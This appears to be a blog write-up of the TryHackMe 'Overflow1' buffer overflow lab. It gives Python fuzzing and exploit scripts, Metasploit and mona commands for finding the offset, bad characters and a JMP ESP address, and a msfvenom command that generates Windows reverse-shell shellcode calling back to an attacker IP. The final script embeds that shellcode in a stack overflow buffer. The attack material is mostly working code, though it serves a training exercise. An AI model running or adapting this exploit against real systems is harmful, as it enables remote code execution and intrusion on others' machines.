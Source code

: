 ```yaml
---
layout : post 
title: Overflow1
image : OverFlow1.png
author: TryHackme
date: 2021-04-29 01:43 +0530

tags: [BufferFlow]
---
```


# Fuzzing

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.142.100"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/Fuzz.png)

# BadCharacters


> note only open the application through debugger only 

bites mentioned the crash bites and add 400 for safe side (payload)

pass the eip address to knw the eip address from pattern  

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
Here YOu can find the offset using `mona` or using the `msf_pattern_offset`

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/esi_eip.png)

!mona findmsp -distance 2400

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/b's.png)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6F43396E
[*] Exact match at offset 1978
```

```python
#update the offset with value
#inserting the badcharecter inside payload
#now retn will be four B's at retn value 

import socket

ip = "10.10.202.172"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = "" 
payload =  "\x01\x02\x03\x04\x05\x06\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
#BADCHAR ARE \x00\x07\x0\x2e\xa0 

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
**Findind the BadCharacter**

>creating the bytearray

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/monobytearray.png)

!mona bytearray -b "\x00"

with ESP address

!mona compare -f C:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin -a 0185FA30

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/monaCompare.png)

now checking the everybadchar , because some times one bad char maycause the otherbadchar 

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/x07.png)

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/x2e.png)

badchars can affect the next byte as well!

findind jump esp regisiter

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/jmpesp.png)

!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"

**625011AF**

finally got to sortout the badcharacter

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/bachar.png)

# Exploit 

creating the shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.202.83 LPORT=5555 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

```python

import socket

ip = "10.10.202.172"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn =  "\xaf\x11\x50\x62" #625011AF
padding = "\x90" * 16 
payload =("\xd9\xcf\xb8\x3d\xc6\x1c\xb8\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x83\xee\xfc\x31\x46\x13\x03\x7b\xd5\xfe\x4d\x7f\x31\x7c"
"\xad\x7f\xc2\xe1\x27\x9a\xf3\x21\x53\xef\xa4\x91\x17\xbd\x48"
"\x59\x75\x55\xda\x2f\x52\x5a\x6b\x85\x84\x55\x6c\xb6\xf5\xf4"
"\xee\xc5\x29\xd6\xcf\x05\x3c\x17\x17\x7b\xcd\x45\xc0\xf7\x60"
"\x79\x65\x4d\xb9\xf2\x35\x43\xb9\xe7\x8e\x62\xe8\xb6\x85\x3c"
"\x2a\x39\x49\x35\x63\x21\x8e\x70\x3d\xda\x64\x0e\xbc\x0a\xb5"
"\xef\x13\x73\x79\x02\x6d\xb4\xbe\xfd\x18\xcc\xbc\x80\x1a\x0b"
"\xbe\x5e\xae\x8f\x18\x14\x08\x6b\x98\xf9\xcf\xf8\x96\xb6\x84"
"\xa6\xba\x49\x48\xdd\xc7\xc2\x6f\x31\x4e\x90\x4b\x95\x0a\x42"
"\xf5\x8c\xf6\x25\x0a\xce\x58\x99\xae\x85\x75\xce\xc2\xc4\x11"
"\x23\xef\xf6\xe1\x2b\x78\x85\xd3\xf4\xd2\x01\x58\x7c\xfd\xd6"
"\x9f\x57\xb9\x48\x5e\x58\xba\x41\xa5\x0c\xea\xf9\x0c\x2d\x61"
"\xf9\xb1\xf8\x26\xa9\x1d\x53\x87\x19\xde\x03\x6f\x73\xd1\x7c"
"\x8f\x7c\x3b\x15\x3a\x87\xac\x10\xb2\x4d\x7f\x4d\xc6\x51\x95"
"\x3e\x4f\xb7\xff\x50\x06\x60\x68\xc8\x03\xfa\x09\x15\x9e\x87"
"\x0a\x9d\x2d\x78\xc4\x56\x5b\x6a\xb1\x96\x16\xd0\x14\xa8\x8c"
"\x7c\xfa\x3b\x4b\x7c\x75\x20\xc4\x2b\xd2\x96\x1d\xb9\xce\x81"
"\xb7\xdf\x12\x57\xff\x5b\xc9\xa4\xfe\x62\x9c\x91\x24\x74\x58"
"\x19\x61\x20\x34\x4c\x3f\x9e\xf2\x26\xf1\x48\xad\x95\x5b\x1c"
"\x28\xd6\x5b\x5a\x35\x33\x2a\x82\x84\xea\x6b\xbd\x29\x7b\x7c"
"\xc6\x57\x1b\x83\x1d\xdc\x3b\x66\xb7\x29\xd4\x3f\x52\x90\xb9"
"\xbf\x89\xd7\xc7\x43\x3b\xa8\x33\x5b\x4e\xad\x78\xdb\xa3\xdf"
"\x11\x8e\xc3\x4c\x11\x9b")

  
#BADCHAR ARE \x00\x07\x0\x2e\xa0 

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
